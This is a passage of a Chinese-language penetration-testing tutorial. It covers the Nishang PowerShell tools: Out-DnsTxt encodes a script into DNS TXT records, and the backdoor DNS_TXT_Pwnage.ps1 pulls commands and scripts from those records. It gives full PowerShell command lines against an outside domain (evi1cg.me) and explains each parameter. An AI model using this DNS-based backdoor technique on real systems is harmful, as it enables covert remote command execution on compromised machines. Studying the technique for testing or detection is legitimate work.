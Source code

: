 使用Out-Dnstxt进行转换：

```
PS F:\DNS> . .\Out-DnsTxt.ps1
PS F:\DNS> Out-DnsTxt -DataToEncode .\Get-User.ps1
You need to create 2 TXT records.
All TXT Records written to F:\DNS\encodedtxt.txt

```

由于这个脚本比较小，所以只生产两行：

![Alt text](http://drops.javaweb.org/uploads/images/e3b68059034c6c0457bae9776ac6756bf445a350.jpg)

可以分别将这两行内容按顺序添加到 1.ps.domain.com到2.ps.domian.com中如下图：

![Alt text](http://drops.javaweb.org/uploads/images/1731ee80d007bdcc85a250c192640223eb93ce1a.jpg)

查看TXT，可以看到内容都已经添加好了：

![Alt text](http://drops.javaweb.org/uploads/images/8bc20c45292615fa6fdbd3ce8310ee01ae958207.jpg)

0x02 执行Powershell
=================

* * *

添加完了TXT记录以后，通过[DNS_TXT_Pwnage.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Backdoors/DNS_TXT_Pwnage.ps1)来执行这些脚本。

> DNS_TXT_Pwnage.ps1 是一个通过DNS TXT来接收命令或者脚本的一个后门脚本

这里还需要添加两条记录，strat与stop，具体如下图：

![Alt text](http://drops.javaweb.org/uploads/images/749079129f3b1740d42ceda0cbd97a915ee11fc1.jpg)

1.执行命令
------

```
PS F:\DNS> . .\DNS_TXT_Pwnage.ps1
PS F:\DNS> DNS_TXT_Pwnage -startdomain start.evi1cg.me -cmdstring start -commanddomain command.evi1cg.me -psstring test -psdomain xxx.evi1cg.me -
Subdomains 1 -StopString stop

```

> 解释一下参数：

*   **startdomain**为创建的_start.domain_，返回一个字符串；
*   **cmdstring**为任意输入的字符串；
*   **commanddomain**为创建的执行命令TXT记录的域名；
*   **psstring**为任意输入的字符串；
*   **psdomain**为创建的执行脚本TXT记录的域名或子域名 ；
*   **Subdomains**为执行脚本创建TXT记录的个数（如1.2中创建的脚本，该值为2）；
*   **StopString**为任意输入的字符串。

